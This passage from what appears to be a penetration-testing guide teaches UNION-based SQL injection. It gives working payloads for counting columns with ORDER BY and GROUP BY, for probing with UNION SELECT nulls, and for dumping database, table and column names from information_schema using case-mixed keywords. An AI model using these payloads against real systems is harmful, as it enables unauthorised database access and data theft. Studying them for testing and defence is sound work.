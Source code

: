 #### Order/Group by

Keep incrementing the number until you get a False response. Even though GROUP BY and ORDER BY have different functionality in SQL, they both can be used in the exact same fashion to determine the number of columns in the query.

```text
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
```

```text
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
```

#### UNION SELECT

Select more and more null values until the query is correct:

```text
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```

_You should use `null`values as in some cases the type of the columns of both sides of the query must be the same and null is valid in every case._

### Extract database names, table names and column names

On the next examples we are going to retrieve the name of all the databases, the table name of a database, the column names of the table:

```text
#Database names
-1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata

#Tables of a database
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]

#Column names
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]
```

_There is a different way to discover this data on every different database, but it's always the same methodology._

## Exploiting Error based
